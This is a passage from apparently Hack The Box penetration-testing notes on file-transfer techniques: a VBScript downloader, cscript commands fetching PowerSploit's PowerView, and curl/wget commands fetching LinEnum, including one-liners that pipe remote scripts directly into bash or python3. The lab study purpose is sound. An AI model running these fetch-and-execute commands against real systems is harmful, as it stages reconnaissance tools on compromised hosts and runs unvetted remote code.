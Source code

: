 #### Download a File Using JavaScript and cscript.exe

* `C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`

### VBScript

***

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

#### Download a File Using VBScript and cscript.exe

* `C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`

#### Download a File Using wget

* `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`

#### Download a File Using cURL

* `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

### Fileless Attacks Using Linux

***

#### Fileless Download with cURL

* `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`

#### Fileless Download with wget

* `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`

### SMB

***

#### Create SMB Server

